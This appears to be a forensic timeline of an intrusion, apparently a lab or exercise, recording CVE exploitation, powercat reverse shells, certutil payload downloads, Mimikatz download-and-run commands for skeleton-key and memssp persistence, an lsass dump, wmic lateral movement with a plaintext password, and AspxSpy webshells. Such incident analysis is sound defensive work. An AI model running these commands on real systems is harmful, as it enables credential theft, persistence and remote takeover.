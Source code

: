 * 2020/8/3 AM 09:38:35, ```CVE-2019-9978``` and post shell, ```bt.exe```, ```nt.exe``` by ```10.20.3.131``` (ubuntu web server)

* 2020/8/4 AM 08:42:33 ```CVE-2020-0688``` (awaiting to determinate) (windows IIS)
```
c:\windows\system32\inetsrv\w3wp.exe -ap "ASP.NET v4.0" -v "v4.0" -l "webengine4.dll" -a \\.\pipe\iisipm127dc09c-653d-45f2-8d87-b91abf5fdbce -h "C:\inetpub\temp\apppools\ASP.NET v4.0\ASP.NET v4.0.config" -w "" -m 0 -t 20
```

* 2020/8/4 AM 08:48:26 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` with role ```SYSTEM``` (windows IIS)

* 2020/8/4 AM 08:49:26, start to ```sqlmap``` by ```10.20.2.227``` (ubuntu web server)

* 2020/8/4 AM 08:51:25 execute ```Sqldumper.exe  468 0 0x01100``` dumps the process with pid ```468```(probably ``` lsass.exe```) (windows IIS)

* 2020/8/4 AM 09:12:51 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/nt.exe nt.exe``` to download ```nt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:13 execute ```nt.exe``` with various parameter (windows IIS)
    * -help
    * /h

* 2020/8/4 AM 09:16:02 execute ```certutil.exe  -urlcache -split -f http://192.168.1.2/bt.exe bt.exe``` to download ```bt.exe``` from ubuntu server (windows IIS)

* 2020/8/4 AM 09:16:29 execute ```bt.exe 192.168.1.0/24``` in ```C:\Users\Public\Music\``` (windows IIS)

* 2020/8/4 AM 09:16:31, tunnel (npv) start (ubuntu web server)

* 2020/08/04:09:23:44, invoke Mimikatz via ```cmd.exe /Q /c IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" 1> \\127.0.0.1\ADMIN$\__1596450222.629457 2>&1``` by ```WIN-LN8SES7K1Q5$``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:24:46, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:26:37, invoke Mimikatz via ```powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'" ``` by ``` Administrator ``` (windows DC)

* 2020/8/4 AM 09:42:07, use tunnel scan internet (ubuntu web server)

* 2020/8/4 AM 09:45:56, login wordpress with admin account by ```10.20.2.165``` (ubuntu web server)

* 2020/8/4 AM 10:23:15, use tunnel request ```http://192.168.1.3/Umbraco/aaaa.aspx``` it's old webshell (ubuntu web server)

* 2020/8/4 PM 10:15:48, use tunnel request ```http://192.168.1.2/admine21_decode.php``` I don't know what it mean (ubuntu web server)

* 2020/8/4 PM 11:04:21, use tunnel request ```http://192.168.1.3/umbraco/AspxSpy2014Final.aspx``` it's webshell (ubuntu web server)

* 2020/8/4 PM 11:07:16, use tunnel request ```http://192.168.1.3/umbraco/bbbb.aspx``` it's webshell (ubuntu web server)

* 2020/8/5 AM 07:34:16 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.3.88``` (windows IIS)

* 2020/8/5 AM 08:58:20 create reverse shell by [powercat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) to ip source ```10.20.2.165``` (windows IIS)

* 2020/8/5 AM 09:07:15 download string from ```http://10.20.2.206/test.txt``` as ```test.aspx``` (windows IIS)


* 2020/8/5 PM 10:07:07 create [aspx webshell](https://raw.githubusercontent.com/tennc/webshell/master/aspx/AspxSpy2014Final.aspx) at ```inetpub/wwwroot/UmbracoCms/Umbraco``` (windows IIS)

* 2020/8/5 PM 10:25:34 RPC ```192.168.1.4``` via ```"c:\windows\system32\cmd.exe" /c wmic /node:192.168.1.4 /user:TEAMT5\Administrator /password:admin12345!!! process call create "ipconfig.exe"``` (windows IIS)

* 2020/8/5 PM 10:25:34, execute ipconfig.exe by ```TEAMT5\Administrator``` (windows DC)

* 2020/8/5 PM 10:26:13 invoke Mimikatz via ```c:\windows\system32\cmd.exe" /c wmic process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::skeleton'\"``` to create password skeleton key (windows IIS)

* 2020/8/5 PM 10:26:25 invoke Mimikatz via ```wmic  process call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'privilege::debug misc::memssp'\""``` to modify ```lsass.exe``` (windows IIS)

* 2020/8/5 PM 10:27:32 ```"c:\windows\system32\cmd.exe" /c net use z: \\WIN-LN8SES7K1Q5\C$ /user:TEAMT5\Administrator mimikatz``` (windows IIS)

<iframe width="100%" height="400" src="https://time.graphics/embed?v=1&id=463591" frameborder="0" allowfullscreen></iframe>
<div><a  style="font-size: 12px; text-decoration: none;" title="Business graphics" href="https://time.graphics">Business graphics</a></div>

